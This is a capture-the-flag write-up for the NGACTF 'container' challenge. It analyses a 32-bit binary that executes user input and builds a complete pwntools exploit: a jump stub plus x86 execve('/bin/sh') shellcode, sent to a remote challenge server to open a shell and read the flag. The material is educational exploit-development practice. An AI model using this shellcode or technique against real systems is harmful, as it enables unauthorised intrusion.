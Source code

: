 This is a writeup for the [NGACTF](https://nicerc.org/events/nga-capture-the-flag/) challenge *container*.
For this challenge the only file provided is an executiable binary.
### Inital steps
The best idea is to first get a basic idea of what security mesaures are already present in the binary so we know what is feasible and what is not. Running checksec will provide exactly the information we desire. 
```shell
troy@troyscomputer$ checksec container
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
We can see that there are no stack canarries (so buffer overflows will be possible) as well as NX is disabled so the stack is executiable. 
### Getting a closer look
As they didn't provide source code, let's get a better look at whats going on by firing up [Ghidra](https://ghidra-sre.org/)
```c
int main() {
  char buf [5];
  char buf60 [60];
  code buf10 [10];
  void* code;
  do {
    printf("Choose a command:\n1: Use premium storage container 1\n2: Use premium storage container2\n3: Use secondary storage box\n4: Run the contents of your premium storage container\n>");
    fflush(stdout);
    fgets(buf,5,stdin);
    if (buf[0] == '1') {
      puts("This container provides 10 bytes of premium storage.");
      fflush(stdout);
      puts("A premium storage container allows you to run your content, too!");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets((char *)buf10,10,stdin);
    }
    if (buf[0] == '2') {
      printf("Sorry, but this container is already in use. You can use the premium storage incontainer1.");
      fflush(stdout);
    }
    if (buf[0] == '3') {
      puts("This storage box is for 50 bytes of extra content. You can\'t run it, but it won\'t takeup your premium storage space.");
      fflush(stdout);
      printf("Go ahead and store your content: ");
      fflush(stdout);
      fgets(buf60,50,stdin);
    }
    if (buf[0] == '4') {
      puts("Okay, I\'ll run the contents of your premium container!");
      fflush(stdout);
      code = buf10;
      (*(code *)code)();
    }
  } while( true );
}
```
The code looks pretty simple. It is contained entierly inside the main function which continually asks the user to pick an option that executes the desired function. Choosing "1" writes at most 10 bytes into buf10, "3" does the same for buf60, "2" does nothing for our purposes, and "4" *EXECUTES* buf10!
```c
puts("Okay, I\'ll run the contents of your premium container!");
fflush(stdout);
code = buf10;
(*(code *)code)();
```
Be sure to review [C function pointers](https://www.learn-c.org/en/Function_Pointers) if the syntax `(*(code *)code)();` looks *too* cryptic.
Great. All we need to do is select option 1, enter some x86 linux shellcode that gives a shell, select 4 to run our code, a shell pops up, and we get the flag!
[Shell Storm](http://shell-storm.org/shellcode/) is a great website that houses short snipits of machine code that do specific things. As this is a 32 bit linux executable we only want shellcode that for x86 linux.
[This shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) is perferect for our needs. It is equilivant to execve("/bin/sh") and happens to be nice and short at 21 bytes. Unfourtantly this is too long for buf10 because `fgets((char *)buf10,10,stdin);` will copy at most 9 characters into buf10 (don't forget the null-byte). However we can put the longer shell code into the bigger buffer and put code that simply jumps to the larger buffer into the 10 byte buffer.
The disassembly in Ghidra before the fgets call will tell us that the 60 byte buffer always starts 0x52 bytes below EBP.
```
LEA        EAX=>buf60,[EBP -0x52]
PUSH       EAX
CALL       fgets
```
The code we need will have to jump to EBP -0x52 in order to invoke the 21 byte shellcode there. With the help of [this website](https://defuse.ca/online-x86-assembler.htm) creating the machine code is easy.
```
mov    eax,ebp
sub    eax,0x52
jmp    eax
```
This assembler copies the stack base pointer (EBP) into eax then subtracts 0x52 (now eax points to the 60 byte buffer), finally the last instruction jumps there and starts executing our shellcode.
Clicking assemble gives us "\x89\xE8\x83\xE8\x52\xFF\xE0", the actual bytes of the machine code which will be executed by `(*(code *)code)();`
### Creating the exploit

Using pwn tools we can easily create a connect script the connects to their server and gives it our juicy code. The script is as easy as defining some constants and importing pwn tools,
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"
```
Connectint to the remote server and waiting for the prompt,
```python
r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")
```
Choosing 1 and uploading the `jmp EBP-0x52` code
```python
r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)
```
Choosing 3 and sending the shellcode,
```python
r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)
```
And selecting 4 to run our jmp + shellcode:
```python
r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
A sample run:
```shell
troy@troyscomputer$ python maker.py
[+] Opening connection to golf.virginiacyberrange.net on port 40149: Done
Okay, I'll run the contents of your premium container!

[*] Switching to interactive mode
$ ls
bin
container
dev
flag
lib
lib32
lib64
$ cat flag
flag{ju5t_4_h0p_sk1p_and_4_jmp_to_exploit}
```

Heres the entire script:
```python
from pwn import *
shell = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

jmp60 = "\x89\xE8\x83\xE8\x52\xFF\xE0"

r = remote("golf.virginiacyberrange.net", 40149)
r.recvuntil(">")

r.sendline("1")
r.recvuntil("Go ahead and store your content:")
r.sendline(jmp60)

r.recvuntil(">")
r.sendline("3")
r.recvuntil("Go ahead and store your content:")
r.sendline(shell)

r.recvuntil(">")
r.sendline("4")
print(r.recvline())
r.interactive()
```
